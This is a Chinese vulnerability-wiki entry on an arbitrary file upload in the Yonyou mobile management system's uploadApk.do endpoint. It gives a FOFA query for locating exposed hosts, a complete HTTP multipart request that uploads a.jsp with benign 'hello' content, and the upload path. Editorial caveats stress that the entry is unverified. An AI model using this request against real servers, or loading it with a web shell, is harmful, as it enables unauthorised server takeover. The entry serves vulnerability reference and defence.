


# 用友移动管理系统 uploadApk文件上传

## 条目说明

- 对象与具体问题：用友移动管理系统；uploadApk文件上传
- 版本、配置及部署条件：未知
- 认证与权限前提：session示例未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- hello文本落地不能证明JSP执行，缺权限/版本/修复

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

用友 移动管理系统 uploadApk.do 接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

### 漏洞影响

用友 移动管理系统

### 网络测绘

```
app="用友-移动系统管理"
```

### 漏洞复现

登陆页面



验证POC

```http
POST /maportal/appmanager/uploadApk.do?pk_obj= HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: JSESSIONID=4ABE9DB29CA45044BE1BECDA0A25A091.server
Connection: close

------WebKitFormBoundaryvLTG6zlX0gZ8LzO3
Content-Disposition: form-data; name="downloadpath"; filename="a.jsp"
Content-Type: application/msword

hello
------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--
```



```
/maupload/apk/a.jsp
```

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
